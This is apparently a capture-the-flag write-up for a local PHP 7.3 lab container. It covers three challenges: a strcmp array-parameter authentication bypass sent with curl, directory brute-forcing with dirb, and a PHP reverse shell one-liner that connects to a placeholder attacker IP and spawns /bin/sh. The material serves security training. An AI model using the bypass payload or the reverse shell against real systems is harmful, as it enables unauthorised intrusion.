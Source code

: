 # CTF 2: PHP Cracken

This uses the container [HightechSec/web-ctf-container](https://github.com/HightechSec/web-ctf-container/tree/master)
to get the PHP 7.3 version and instilled apache2 on it.

## Requirements
- [nmap](https://nmap.org/)
- [nc](https://www.kali.org/tools/netcat/#netcat-traditional)
- [wordlists](https://www.kali.org/tools/wordlists/) -> rockyou.txt, dirb/common.txt
- [dirb](https://www.kali.org/tools/dirb/)

## About Categorize
- Content Discovery
- Authentication Bypass
- Reverse Shell

## Plan of Engagement
1. Port Scanning -> 80
2. Pick a challenge and exploit

## Solution
### Challenge 1
Use [PHP Strcmp](https://www.php.net/manual/en/function.strcmp.php) bypass.
This can be done by using the `?password[]=%22%22`.
Due to some inherent weaknesses in PHP's comparisons, NULL == 0 will return true.

```sh
 curl -X POST --data "username=admin&password[]=%22%22&submit=Login" http://127.0.0.1/admin/index.php
```

### Challenge 2
Use a Web Content Scanner to perform a dictionary-based attack against a web server. 
```sh
dirb http://127.0.0.1 /usr/share/wordlists/dirb/common.txt
```

### Challenge 3
Use Reverse Shell to gain a foothold in the system.
Using a tool like `netcat` to host the reverse shell.
```sh
php -r '$sock=fsockopen("<attacker_ip>",<attacker_port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
